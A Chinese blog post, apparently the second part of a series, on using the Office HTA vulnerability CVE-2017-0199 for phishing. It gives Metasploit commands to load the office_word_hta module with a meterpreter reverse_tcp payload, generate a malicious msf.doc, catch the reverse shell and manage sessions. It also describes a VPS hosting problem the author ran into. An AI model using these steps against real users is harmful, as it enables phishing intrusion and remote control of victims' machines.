






Title:用office的CVE-2017-0199漏洞进行钓鱼（二）
Date: 2017-12-22 10:20
Category: 钓鱼
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4
Summary: HTA Handler Vulnerability


上一篇已经一步一步手动复现了该漏洞，也弄清楚了一些小的疑问，本篇将使用metasploit进行复现。

### 0x0、metasploit的复现过程

```
msfupdate
msfconsole
search CVE-2017-0199
```

如果更新后找不到模块，可以直接到github上下载

https://github.com/rapid7/metasploit-framework/issues/8220

https://github.com/rapid7/metasploit-framework/pull/8254



而后加载该模块，并且设置各项参数，比如payload等。

```
use exploit/windows/fileformat/office_word_hta
set payload windows/meterpreter/reverse_tcp
show options
run
```



成功生成了恶意文件并监听4444端口之后，我们就可以保存msf.doc文件到本地并执行了。

```
新开一个shell然后执行
sz  /root/.msf4/local/msf.doc
```



可以看到成功反弹了shell。注意，要想成功反弹shell，需要保证监听服务器和webdav服务器在运行msf.doc的主机上都可以正常访问才行。

### 0x1、关于metasploit

1. 一个监听端口可以接收多个反弹会话的。

2. sessions的操作，当前session到后台运行 `background` , 进入某个session：session session_ID

   

3. jobs的操作，将某个job调用到前台：use exploit/xxx/xxx；将当前job调到后台：back ；杀死某个job：kill job_id

   

   

4. 有一个小坑：阿里云的VPS（ECS）上，所有网卡上的IP地址都是内网地址，没有外网地址（应该是有映射机制，当访问外网地址http://外网IP:8080/default.hta 会被映射到内网地址http://内网IP:8080/default.hta，验证过的），而msf绑定SRVHOSR:SRVPORT的时候似乎是根据网络来的，所以就无法绑定外网地址，上面的例子里，就无法将HTA的URL向外网开放。有前面说的映射机制，应该也能访问到才对啊，但问题是生成的msf.doc文件中，写死了要请求的URL（即内网的URL，尝试了手动更新，也未成功）。只好换个vps进行实验了。